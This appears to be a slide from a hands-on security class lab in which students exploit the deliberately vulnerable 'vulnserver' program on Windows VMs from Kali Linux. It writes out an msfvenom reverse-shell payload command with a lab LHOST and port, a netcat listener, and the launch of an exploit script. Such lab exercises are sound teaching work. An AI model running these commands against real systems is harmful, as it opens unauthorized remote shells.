

# Planting Backdoor
A TA clicks and starts the vulnserver within file explorer on the two group Windows 10 VMs
C:\Tools\vulnserver\vulnserver.exe
Students take turns to attack vulnserver from Kali Linux
Change reverse-shell.py:
Change victim IP in reverse-shell.py
Change malware code: msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.8 LPORT=4444 EXITFUNC=thread -f python -v SHELL -b '\x00\x0a\x0a'
Run the following command in  to get into Windows
nc -lp 4444
python3 reverse-shell.py
Windows deletes vulnserver.exe
6